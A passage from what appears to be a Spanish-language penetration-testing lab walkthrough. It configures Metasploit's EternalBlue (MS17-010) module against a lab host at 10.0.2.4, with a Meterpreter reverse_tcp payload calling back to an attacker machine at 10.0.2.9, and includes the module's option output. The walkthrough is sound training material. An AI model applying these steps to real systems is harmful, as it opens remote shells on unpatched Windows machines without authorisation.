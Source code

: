 - Configurar **RHOST**, la IP del servicio objetivo, victima.
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.0.2.4
    RHOST => 10.0.2.4
    ```
- Configurar **LHOST**, la IP de la maquina atacante.
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.0.2.9
    LHOST => 10.0.2.9
    ```
- Verificar mediante el comando **show options**

    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

    Module options (exploit/windows/smb/ms17_010_eternalblue):

    Name           Current Setting  Required  Description
    ----           ---------------  --------  -----------
    RHOSTS         10.0.2.4         yes       The target host(s), see https://docs.metasploit.com/d
                                                ocs/using-metasploit/basics/using-metasploit.html
    RPORT          445              yes       The target port (TCP)
    SMBDomain                       no        (Optional) The Windows domain to use for authenticati
                                                on. Only affects Windows Server 2008 R2, Windows 7, W
                                                indows Embedded Standard 7 target machines.
    SMBPass                         no        (Optional) The password for the specified username
    SMBUser                         no        (Optional) The username to authenticate as
    VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
                                                Only affects Windows Server 2008 R2, Windows 7, Windo
                                                ws Embedded Standard 7 target machines.
    VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affec
                                                ts Windows Server 2008 R2, Windows 7, Windows Embedde
                                                d Standard 7 target machines.


    Payload options (windows/x64/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
    LHOST     10.0.2.9         yes       The listen address (an interface may be specified)
    LPORT     4444             yes       The listen port


    Exploit target:

    Id  Name
    --  ----
    0   Automatic Target



    View the full module info with the info, or info -d command.
    ```
    > **Comentario:** Se observa que el RHOST (10.0.2.4) y el LHOST (10.0.2.9) han sido asignados correctamente.
